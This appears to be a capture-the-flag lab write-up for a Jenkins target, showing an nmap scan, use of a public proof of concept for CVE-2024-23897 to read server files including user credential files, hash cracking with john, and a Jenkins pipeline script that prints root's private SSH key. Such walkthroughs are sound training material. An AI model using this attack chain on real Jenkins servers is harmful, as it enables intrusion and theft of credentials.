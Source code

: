 Nmap Scanning:

~~~
nmap 10.10.11.10 -sC -sV 
~~~

~~~
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-24 14:11 IST
Nmap scan report for 10.10.11.10
Host is up (0.17s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
500/tcp   filtered isakmp
1718/tcp  filtered h323gatedisc
5004/tcp  filtered avt-profile-1
8080/tcp  open     http          Jetty 10.0.18
|_http-server-header: Jetty(10.0.18)
|_http-title: Dashboard [Jenkins]
| http-robots.txt: 1 disallowed entry 
|_/
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
40193/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.02 seconds
~~~

![[Pasted image 20240324141326.png]]

Version :    Jenkins 2.441

This version vuln to read arbitary file in the server 
~~~
 POC for this vuln
 https://github.com/godylockz/CVE-2024-23897
~~~

~~~
python3 jenkins_fileread.py -u http://10.10.11.10:8080/
~~~

![[Pasted image 20240324141623.png]]

look in this directory 
/var/jenkins_home

![[Pasted image 20240324141732.png]]

got user flag

~~~
var/jenkins_home/users/users.xml
~~~


![[Pasted image 20240324141933.png]]

~~~
var/jenkins_home/users/jennifer_12108429903186576833/config.xml 
~~~

![[Pasted image 20240324142139.png]]

we got the Password Hash decrpt with john

![[Pasted image 20240324144034.png]]

after login with this credentials

add new item and use pipeline to get the ssh key for root

In the Pipeline script terminal

~~~ python
pipeline {
    agent any
        stages {
            stage('SSH') {
                steps {
                    script {
                        sshagent(credentials: ['1']) {
                            sh 'ssh -o StrictHostKeyChecking=no root@10.10.11.10 "cat /root/.ssh/id_rsa"'
                        }
                    }
                }
            }
        }
}
~~~
 script breakdown
 1. It defines a Jenkins pipeline with the `agent any` directive, which means it can run on any available agent.
2. It defines a single stage named 'SSH'.
3. Inside the 'SSH' stage, there's a single step that executes a script.
4. Within the script block, it uses the `sshagent` Jenkins plugin to temporarily add SSH credentials (`credentials: ['1']`) to the SSH agent.
5. Inside the `sshagent` block, it executes a shell command using `sh`. The command connects to a remote server (`root@10.10.11.10`) via SSH and runs `cat /root/.ssh/id_rsa` to output the content of the `id_rsa` file.



![[Screenshot from 2024-03-25 11-15-10.png]]


save and build after successfully build  see the output 

![[Screenshot from 2024-03-25 11-14-56.png]]



we got the ssh key for root save the key and lohgin with root

![[Screenshot from 2024-03-25 11-14-43.png]]

